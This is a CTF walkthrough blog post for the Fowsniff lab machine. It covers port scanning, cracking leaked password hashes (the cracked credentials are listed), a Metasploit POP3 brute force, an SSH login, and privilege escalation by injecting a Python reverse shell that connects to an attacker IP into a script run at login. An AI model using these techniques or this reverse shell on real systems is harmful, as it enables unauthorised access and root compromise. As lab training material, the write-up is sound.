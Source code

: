 ```yaml
---
title: "FOWSNIFF CTF CHALLENGE"
date: 2025-09-14 01:09:33 +0300
description: FowSniff CTF Challenge
image: /assets/images/cover.webp
categories: [WEB, Cryptography, Easy]
tags: [WEB, Cryptography, Easy, KenyaCyberlympics]
---
```


# Fowsniff CTF

**Task 1: Deploy the machine**

The first step was to deploy the machine and connect to their network using OpenVPN because I used VPN. You can choose to use the Attack box as well; it's easier if you find it hard to connect to VPN.

![image.png](/assets/images/image.png)

The next thing was to ping the machine’s IP address ‘10.10.213.180’. The IP addresses will vary depending on the machine deployed. I did not get any results, probably because the system and its firewall were blocking ICMP packets, or the machine was not up yet.

**Task 2: Using Nmap scan the machine. What ports are open?**

So I used Nmap to scan for open ports. The command used is: 

```bash
nmap -A -sV <IP Address>
```

The open ports found were: 22/tcp, 80/tcp, 110/tcp and 143/tcp for SSH, HTTP, POP3, and IMAP respectively.

![image.png](/assets/images/nmap-scan.png)

**Task 3: Using Google to find publicly available information about the IP address**

Using Google, I searched the IP address and found the website related to the IP address called *Fowsniff Corp.*

![image.png](/assets/images/fowsniff-website.png)

There is also a GitHub account called [https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff). This account has a file called `fowsniff.txt` which contains Fowsniff Corp password leaks.

[https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff)

![image.png](/assets/images/password-leak.png)

I decoded the passwords using password cracker tools called Hashkiller and CrackStation. Feel free to use any password cracker of your choice. Here are the results:

1. `mauer@fowsniff`: 8a28a94a588a95b80163709ab4313aa4 - mailcall
2. `mustikka@fowsniff`: ae1644dac5b77c0cf51e0d26ad6d7e56 - bilbo101
3. `tegel@fowsniff`: 1dc352435fecca338acfd4be10984009 - apple01
4. `baksteen@fowsniff`: 19f5af754c31f1e2651edde9250d69bb - skyler22
5. `seina@fowsniff`: 90dc16d47114aa13671c697fd506cf26 - scoobydoo2
6. `stone@fowsniff`: a92b8a29ef1183192e3d35187e0cfabd - 
7. `mursten@fowsniff`: 0e9588cb62f4b6f27e33d449e2ba0b3b - carp4ever
8. `parede@fowsniff`: 4d6e42f56e127803285a0a7649b5ab11 - orlando12
9. `sciana@fowsniff`: f7fd98d380735e859f8b2ffbbede5a7e - 07011972

**Task 4: Brute force POP3 login using Metasploit**

I first created two files named `users.txt` and `password.txt` using the nano text editor.

![image.png](/assets/images/users.txt.png)

![image.png](/assets/images/password.txt.png)

Since the instructions are to brute force POP3 login, I searched for a POP3 login utility and here we are going to use the 3rd option: `auxiliary/scanner/pop3/pop3_login`.

![image.png](/assets/images/pop3-search.png)

The next command should be `use 3`.

![image.png](/assets/images/use3-command.png)

Now, set our target machine as the remote host, `password.txt` as the PASS_FILE and `users.txt` as the USER_FILE. The commands are as follows:

1. `set rhosts <IP Address>`
2. `set USER_FILE users.txt`
3. `set PASS_FILE password.txt`

After setting these files, execute the `run` command.

![image.png](/assets/images/settings.png)

**Task 5: What is Seina’s password to the email server?** 

![image.png](/assets/images/run-command.png)

Seina’s password is `scoobydoo2`.

**Task 6: Login to POP3 mail server using Seina’s username and password and read the emails**

![image.png](/assets/images/nc-result.png)

Using `nc` and the host address and POP3 port 110, I logged in using the username `seina` and password `scoobydoo2`. We can see there are two messages: 1622 and 1280.

We can use the command `RETR <message>` to read the contents of the emails.

1. The first message:

    ![image.png](/assets/images/first-email.png)

2. The second message doesn't seem to have a lot of insight, but we see that some people might not have changed their email passwords as advised. 

    ![image.png](/assets/images/sec-email.png)

**Task 7: The temporary email password Seina was given**

SSH password: `S1ck3nBluff+secureshell`

**Task 8:  Who sent the email? Using the password from the previous task and the username, connect to the machine using SSH**

![image.png](/assets/images/ssh-login.png)

Using the email sender: `baksteen` and the password: `S1ck3nBluff+secureshell`, I logged into the machine.

**Task 9: What group does the user belong to? Are there files that can be run by that group?**

![image.png](/assets/images/user-id.png)

Using the command `id`, we get to know the user id and the group that the current user belongs to. `baksteen` belongs to the `users` group, and therefore doesn't have root privileges.

Using the command: 

```bash
find / -group users -type f 2>/dev/null
```

we search the whole system for file types only that belong to the group `users` and redirect any error messages to `/dev/null` so that they don't clutter the output.

![image.png](/assets/images/cube.sh-file.png)

We find an interesting file named `cube.sh` that can be edited by the group members in the `users` group. 

**Task 10: Include a reverse shell script in the file** 

The file in question is called `cube.sh`.

![image.png](/assets/images/script.png)

After adding the script:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
We save the file using CTRL + O, then click ENTER and exit the text editor using CTRL + X. When someone logs in the machine via SSH the cube.sh is executed automatically, creating a reverse shell and enabling us to access the machine remotely.

Make sure to replace the <IP> with your IP address which you can be found by: ```bash ifconfig ``` 

To create a reverse shell, we use the command below to listen to port 1234. You are free to chose a port of your choice 
```bash
nc -lvnp <port>.
```
nc- Netcat
l- Listen mode
v- Verbose output
n- No host resolution
p- Listening port
Below, I chose the port 1234. 

We have to go ahead an relogin to the machine in order to trigger the reverse shell
we get a prompt meaning we successfully established a reverse shell

![image.png](/assets/images/nc-connect-as-root.png)

I used the command ```bash whoami``` to confirm that we are logged as root


![image.png](/assets/images/nc-reverse-shell.png)

To find the flag, I used the command 

```bash
find / -name "flag.txt" 2>/dev/null
```

![image.png](/assets/images/flag.txt.fowsnif.png)


